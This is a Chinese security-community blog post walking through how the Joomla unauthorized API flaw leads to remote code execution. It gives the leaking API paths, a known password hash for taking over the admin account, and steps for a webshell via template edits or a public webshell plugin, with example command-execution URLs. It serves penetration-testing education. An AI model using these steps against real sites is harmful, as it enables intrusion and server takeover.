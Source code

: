 #  Joomla Unauthorized"后"渗透到RCE   
Betta  火线Zone   2023-04-14 17:06  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQsOrQiapu38ho0znsATljMG4SUia7NAdk5GIhCkju1VhXicboWTEc18KNA/640?wx_fmt=png "")  
  
  
**前言**  
  
  
前文已经分析过了Joomla Unauthorized的漏洞成因，总的来说是由于函数array_merge()变量覆盖引起的，未授权的api接口很多。  
  
  
  
**Joomla Unauthorized RCE1**  
  
  
  
api路径  
```
api/index.php/v1/config/application?public=true
```  
  
http://joomla.net:8011/api/index.php/v1/config/application?public=true  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQ4KJKxUhtC1osS4VoXpWFibt3gibJFGDhdJSvmXhSwP4wTZSOZqV3G35w/640?wx_fmt=png "")  
  
登录mysql写入webshell，有条件限制  
- 通过log写入webshell  
  
  
```
数据库的当前用户为ROOT或拥有FILE权限；（FILE权限指的是对服务器主机上文件的访问）
明确网站路径
general_log参数值为ON
general_log_file参数为webshell路径
```  
  
- 通过函数outfile写入webshell（该传统方式**不可行**）  
  
Joomla漏洞版本无注入点无法通过注入点和outfile函数写入webshell  
  
  
  
**Joomla Unauthorized RCE2******  
  
  
  
****  
**进入后台administrator的方法1**  
  
通过未授权api  
```
api/index.php/v1/users?public=true
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQYJDq2D4pQbWuAa8XibYn3MkOx2Ra2RwQ9VrmZcKVMrsR6MkZfCZF0XA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQLHhQdMaF4ScUSaQ1V8icxSGKw7icgJHG7esfXfos1rMUGefY05yic0vGQ/640?wx_fmt=png "")  
  
可读取用户信息，使用社工方式暴力破解登录后台，利用进行RCE  
  
  
**进入后台administrator的方法2**  
- 修改模板文件  
  
获取mysql权限后执行sql语句或者使用工具修改后端管理员密码或者其他用户密码，joomla有自己的加密算法，所以也没必要破解他们的加密方式，老版本搭建后使用用户的哈希值更换  
```
Toggle Menu->Users-Manage
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQcp5E5dUPAzwOOwePLibu5DJZUkDsDxgFZUBhswjetgqtHpqGDqGu8Mw/640?wx_fmt=png "")  
```
123456123456::$2y$10$GauLOsp1NBJLO0FGjlqhxOu8LZe9wconNuPwqgjX/pGxAqn7dL5ba
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQWbgCaxmcduAGOCKOubFtsrExKIVUElNxYejY1TJQDbQoqibbEKsUiblQ/640?wx_fmt=png "")  
  
修改admin的密码为该密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQf3tsmlGhdXEYKsH8trCBYQUTbtT7ZibibCMgyWF4UXdxyAjecj6hcecQ/640?wx_fmt=png "")  
  
可登录后台  
  
  
**后台RCE的两种方式**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQwlXTMBCTibFBibib2SANeZB9eYNjJXs8MSEQz76DOpS3q9PytpxHfeYOQ/640?wx_fmt=png "")  
```
Toggle Menu->System->Templates->Site Templates->cassiopeia
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQgyC7ichibX4OIgMoyfIf5qeV74yeCDjgqu3no5II3PrY4fK4rZ2eVzow/640?wx_fmt=png "")  
  
修改模板文件,添加恶意代码实现命令执行，获取webshell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQaekEZxSsakp1I3Rvd3rkD4ib6mqDichGMJpXFUQVnOfMk0Mwe1SzOBVw/640?wx_fmt=png "")  
  
测试webshell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQWicdEpjuM4OaJWCKOA0RYaPlny2AGTaOKzicq9O0dWnZ1icj4xdbN644w/640?wx_fmt=png "")  
  
- 导入恶意插件  
  
项目地址  
```
https://github.com/p0dalirius/Joomla-webshell-plugin
```  
  
路径  
```
Toggle Menu->System-> Extensions
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQiarRALGI3FhEV76QQrozP25BP87hbaZRXxibAvrGDibgqLyL1bV5YxuQw/640?wx_fmt=png "")  
  
下载地址  
```
https://github.com/p0dalirius/Joomla-webshell-plugin/releases/tag/1.1
```  
  
上传下载的恶意插件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQTxh9d7GOkBxFYicvUJVUwicFZuyJQgURUHDNvSLxqnmmZyQZf5dWeCdw/640?wx_fmt=png "")  
  
上传成功后查看插件管理  
```
http://joomla.net:8011/administrator/index.php?option=com_installer&view=manage
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQ1uSibQsSDtYibM6MmicicYjccZTlJdVYQHhBZym7IyZ1ybMWjrDhFicJ5Dw/640?wx_fmt=png "")  
  
```
http://joomla.net:8011/modules/mod_webshell/mod_webshell.php?action=exec&cmd=whoami
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQgDQ7M9B2PZDxmYHiaHWzz5YkQibg3pUzDQEwibfBGAsxNvHoqFlzuyJSA/640?wx_fmt=png "")  
  
成功执行命令  
  
当前目录下创建一个1.txt,，文件内容如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQwnE2tdrKbCk0ywLf9VeeJYWa3iajzyNz7cTUWzKu54OCP1ppL2WmZxw/640?wx_fmt=png "")  
```
http://joomla.net:8011/modules/mod_webshell/mod_webshell.php?action=download&path=./1.txt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQR8qtuia7fficBIA6JxXIg0ibgWqhN4oL4Q4hjYy1tvZ9KcMKR2vrL0DyA/640?wx_fmt=png "")  
  
文件内容为  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQud2cFJDiaG0RU6SF1WXtU00PWPFMRCWibCicicEmYOqGEiaSC69A31pYAcQ/640?wx_fmt=png "")  
  
  
参考文章  
  
https://github.com/p0dalirius/Joomla-webshell-plugin  
  
https://vulncheck.com/blog/joomla-for-rce  
  
  
往期推荐  
  
[](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497860&idx=1&sn=4c71ce1396dba6f0880e45d74732c6e2&chksm=eaa970a4dddef9b2eedb3686dcb1b07e25c1bb3904bc6e5f9f349883ff4148013e9c37a0797c&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497953&idx=1&sn=0c825a2c7832e8b760ad45a77a1b8359&chksm=eaa970c1dddef9d745224f7fdcf496465ef248e460d520d335fa8b1e8f65899aba6efdc16b86&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497941&idx=1&sn=5a222c66d2a456b1c08a5bcbd6700535&chksm=eaa970f5dddef9e3f3d943bb064113b43a3665f76f36b7d26e021eb58ddd8ecad94c80c18ec5&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTqUMcfSdkOBbKZeCWsJcibQVFRRiaibNBgiaQAYQjvWjoZEh0o2XicTJjwBVUEUia6YAYnTnJ8LoPOhp0A/640?wx_fmt=png "")  
  
火线Zone是火线安全平台运营的安全社区，拥有超过20,000名可信白帽安全专家，内容涵盖渗透测试、红蓝对抗、漏洞分析、代码审计、漏洞复现等热门主题，旨在研究讨论实战攻防技术，助力社区安全专家技术成长，2年内已贡献1300+原创攻防内容，提交了100,000+原创安全漏洞。  
  
欢迎具备分享和探索精神的你加入火线Zone社区，一起分享技术干货，共建一个有技术氛围的优质安全社区！  
  
  
  
  
